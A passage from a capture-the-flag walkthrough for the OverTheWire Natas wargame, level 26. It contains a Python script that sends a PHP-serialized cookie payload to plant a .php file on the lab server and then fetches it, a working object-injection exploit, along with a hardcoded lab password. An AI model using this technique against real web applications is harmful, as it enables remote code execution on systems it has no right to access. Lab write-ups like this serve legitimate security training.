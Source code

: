 Let write a python script which get base54 encoded string from php and sends cookies as we want

```py
import requests
import re
import urllib.parse as urllib
import base64

import subprocess
import random
import string


def generate_random_name():
    letters = string.ascii_lowercase
    return ''.join(random.choice(letters) for i in range(8))

random_name = generate_random_name()
php_script = "natas26_cookies.php" # imporatant
php_output = subprocess.run(["php", php_script, random_name], capture_output=True, text=True)
output_from_php = php_output.stdout.strip() # Base64 encoded


username = "natas26"
passsowrd = "8A506rfIAXbKKk68yJeuTuRq4UfcK70k"
url = "http://%s.natas.labs.overthewire.org/"%username
# Sample
parameter = "? x1=0 & y1=0 & x2=500 & y2=500".replace(' ','')
session = requests.Session()
response = session.get(url,auth=(username,passsowrd))

session.cookies['drawing'] =  output_from_php # cookies manipulation
response = session.get(url+parameter,auth=(username,passsowrd)) # sends parameter

response = session.get(url+'img/'+random_name+'.php',auth=(username,passsowrd))
content = response.text

print(content)
```

---

### Natas 27

<img src="img/Pasted image 20240508144645.png" alt="Example Image" width="1080"/>